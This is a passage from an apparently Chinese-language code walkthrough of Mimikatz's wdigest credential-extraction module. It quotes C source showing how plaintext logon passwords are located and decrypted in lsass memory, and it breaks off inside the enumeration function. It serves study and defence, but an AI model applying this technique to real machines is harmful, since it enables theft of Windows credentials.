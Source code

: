 此外，用户的明文密码属于机密信息，因此也经过 `LsaProtectMemory()` 函数调用后进行对称加密，因此同样需要利用与《Mimikatz Explorer - Sekurlsa MSV》相同的方法获取加密密钥和初始化向量。

但是，我们仍需要从 lsasrv.dll 中枚举 `LogonSessionList`，并从中获取存在的登录 ID，对 `l_LogSessList` 中的 `LocallyUniqueIdentifier` 与获取到的 `LogonSessionList` 中的登录 ID 进行比较，从而准确获取会话凭据。

Beginning
=========

Make Lsass Packages
-------------------

根据 `msv` 功能的名称找到其入口函数 `kuhl_m_sekurlsa_wdigest()`：

- sekurlsa\\packages\\kuhl\_m\_sekurlsa\_wdigest.c

```c++
NTSTATUS kuhl_m_sekurlsa_wdigest(int argc, wchar_t * argv[])
{
    return kuhl_m_sekurlsa_getLogonData(kuhl_m_sekurlsa_wdigest_single_package, 1);
}
```

`kuhl_m_sekurlsa_msv_single_package` 中包含了本模块所使用的 lsass 包：

```c++
KUHL_M_SEKURLSA_PACKAGE kuhl_m_sekurlsa_wdigest_package = {L"wdigest", kuhl_m_sekurlsa_enum_logon_callback_wdigest, TRUE, L"wdigest.dll", {{{NULL, NULL}, 0, 0, NULL}, FALSE, FALSE}};
```

随后调用 `kuhl_m_sekurlsa_getLogonData()` 函数获取用户的登录信息。

Get Logon Data
--------------

跟进 `kuhl_m_sekurlsa_getLogonData()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_getLogonData(const PKUHL_M_SEKURLSA_PACKAGE * lsassPackages, ULONG nbPackages)
{
    KUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA OptionalData = {lsassPackages, nbPackages};
    return kuhl_m_sekurlsa_enum(kuhl_m_sekurlsa_enum_callback_logondata, &OptionalData);
}
```

将传进来的 lsass 包组成 `OptionalData` 后传入 `kuhl_m_sekurlsa_enum()` 函数。

Main Enumeration Function
-------------------------

跟进 `kuhl_m_sekurlsa_enum()` 函数，该函数枚举包括 lsass.exe 进程、用户会话在内的相关信息。

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_enum(PKUHL_M_SEKURLSA_ENUM callback, LPVOID pOptionalData)
{
    KIWI_BASIC_SECURITY_LOGON_SESSION_DATA sessionData;
    ULONG nbListes = 1, i;
    PVOID pStruct;
    KULL_M_MEMORY_ADDRESS securityStruct, data = {&nbListes, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, aBuffer = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    BOOL retCallback = TRUE;
    const KUHL_M_SEKURLSA_ENUM_HELPER * helper;
    // 调用 kuhl_m_sekurlsa_acquireLSA() 函数提取 lsass.exe 进程信息
    NTSTATUS status = kuhl_m_sekurlsa_acquireLSA();

    if(NT_SUCCESS(status))
    {
```